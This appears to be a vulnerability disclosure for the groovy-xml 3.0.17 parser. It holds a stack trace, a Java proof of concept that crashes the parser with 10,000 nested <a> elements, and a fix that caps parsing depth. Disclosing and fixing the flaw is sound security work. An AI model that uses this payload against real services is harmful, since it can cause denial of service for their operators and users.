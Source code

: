## StackOverflowError caused by groovy-xml parsing of untrusted XML String
### Description
---
Using groovy-xml to parse untrusted XML String may be vulnerable to denial of service (DOS) attacks. If the parser is running on user supplied input, an attacker may supply content that causes the parser to crash by stackoverflow.

### Error Log
---
        Exception in thread "main" java.lang.StackOverflowError
          at java.util.AbstractCollection.toString(AbstractCollection.java:454)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at groovy.util.Node.toString(Node.java:805)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at java.util.AbstractCollection.toString(AbstractCollection.java:462)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          ...
          at groovy.util.Node.toString(Node.java:805)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at java.util.AbstractCollection.toString(AbstractCollection.java:462)
          at java.lang.String.valueOf(String.java:2994)
          at java.lang.StringBuilder.append(StringBuilder.java:131)
          at groovy.util.Node.toString(Node.java:805)
          
### Version
        <dependency>
            <groupId>org.codehaus.groovy</groupId>
            <artifactId>groovy-xml</artifactId>
            <version>3.0.17</version>
        </dependency>

### PoC
---
        import groovy.util.Node;
        import groovy.xml.XmlParser;
        import org.xml.sax.SAXException;

        import javax.xml.parsers.ParserConfigurationException;
        import java.io.IOException;

        public class CodehausGroovyXmlTest {

            public static String createXmlStr() {
                StringBuilder str = new StringBuilder("Test xml");
                for (int i = 0; i <= 9999; i++) {
                    str.insert(0, "<a>");
                    str.append("</a>");
                }
                return str.toString();
            }

            public static void main(String[] args) throws ParserConfigurationException, SAXException, IOException {
                XmlParser xmlParser = new XmlParser();
                Node node = xmlParser.parseText(createXmlStr());
                System.out.println(node.get("a"));
            }
        }
        
### Rectification Solution
---
Refer to the solution of JSON-java: Add the depth variable to record the current parsing depth. If the parsing depth exceeds a certain threshold, an exception is thrown. ([XML.toJSONObject may lead to StackOverflowError which may lead to dos when parses untrusted xml: CVE-2022-45688 #708](https://github.com/stleary/JSON-java/issues/708))

